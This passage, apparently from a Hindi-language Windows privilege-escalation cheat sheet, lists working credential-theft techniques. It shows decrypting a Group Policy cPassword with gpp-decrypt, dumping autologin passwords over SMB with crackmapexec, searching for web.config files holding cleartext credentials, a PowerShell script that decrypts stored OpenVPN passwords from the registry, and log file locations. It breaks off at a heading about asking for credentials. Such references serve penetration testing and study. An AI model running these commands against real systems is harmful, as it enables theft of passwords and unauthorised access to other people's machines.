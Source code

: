 **cPassword को डिक्रिप्ट करने के लिए:**
```bash
#To decrypt these passwords you can decrypt it using
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
crackmapexec का उपयोग करके पासवर्ड प्राप्त करना:
```bash
crackmapexec smb 10.10.10.10 -u username -p pwd -M gpp_autologin
```
### IIS वेब कॉन्फ़िग
```bash
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

```bash
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```
web.config में क्रेडेंशियल्स का उदाहरण:
```xml
<authentication mode="Forms">
<forms name="login" loginUrl="/admin">
<credentials passwordFormat = "Clear">
<user name="Administrator" password="SuperAdminPassword" />
</credentials>
</forms>
</authentication>
```
### OpenVPN क्रेडेंशियल्स
```csharp
Add-Type -AssemblyName System.Security
$keys = Get-ChildItem "HKCU:\Software\OpenVPN-GUI\configs"
$items = $keys | ForEach-Object {Get-ItemProperty $_.PsPath}

foreach ($item in $items)
{
$encryptedbytes=$item.'auth-data'
$entropy=$item.'entropy'
$entropy=$entropy[0..(($entropy.Length)-2)]

$decryptedbytes = [System.Security.Cryptography.ProtectedData]::Unprotect(
$encryptedBytes,
$entropy,
[System.Security.Cryptography.DataProtectionScope]::CurrentUser)

Write-Host ([System.Text.Encoding]::Unicode.GetString($decryptedbytes))
}
```
### लॉग्स
```bash
# IIS
C:\inetpub\logs\LogFiles\*

#Apache
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```
### Ask for credentials
